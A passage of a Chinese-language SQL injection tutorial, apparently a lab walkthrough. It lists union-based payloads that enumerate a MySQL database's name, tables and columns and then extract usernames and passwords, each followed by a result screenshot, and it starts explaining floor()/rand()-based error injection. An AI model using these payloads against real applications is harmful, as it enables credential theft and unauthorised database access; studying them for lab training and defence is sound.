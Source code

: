 4、开始枚举数据库名，构造语句为：

```mysql
-1' union select 1,2,database() --+'
```

获取到当前数据库名：

![image-20210721121325626](https://{{site.PicturesLinks_Domain}}/images/2021/07/21/20210721121349.png)

5、枚举表名，构造语句为：

```mysql
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+'
```

结果如下：

![image-20210721121850930](https://{{site.PicturesLinks_Domain}}/images/2021/07/21/20210721121851.png)

6、枚举字段名，语句为：

```mysql
-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+'
```

结果如下：

![image-20210721122125062](https://{{site.PicturesLinks_Domain}}/images/2021/07/21/20210721122125.png)

7、枚举字段的字段值，语句如下：

```mysql
-1' union select 1,group_concat(username),group_concat(password) from users --+'
```

结果如下：

![image-20210721122729290](https://{{site.PicturesLinks_Domain}}/images/2021/07/21/20210721122729.png)

## SQL 报错注入

### 相关知识

产生原因：MySQL报错注入通过构造相关语句让信息通过错误提示回显出来，主要应用于查询不回现内容，会打印错误信息；Update、insert等语句，会打印相关错误的信息。

#### 主键重复报错

利用`floor()`函数使SQL语句报错，实际上是由`count()`、`rand()`、`group by`三个函数语句联合使用造成的。

使用到的相关函数介绍如下：

- `count()`：该函数返回匹配指定条件的行数。count(\*)函数返回表中的记录数。
- `floor()`：该函数是用来向下取整的，相当于去掉小数部分。
- `rand()`：该函数是随机取(0,1)中的一个数。但是给它一个参数0后，即`rand(0)`，并且传给`floor()`后，即：`floor(rand(0)*2)`它就不再是随机了，是一个序列 0110110。
- `concat()`：用于连接两个字符串。
- `group by x`：根据x的规则对数据进行分组，分组时，MySQL会建立一个临时空表进行分组。
- `0x26`：16进制数值，ASCII为“&”，在回显中起到分隔作用，可换其它。
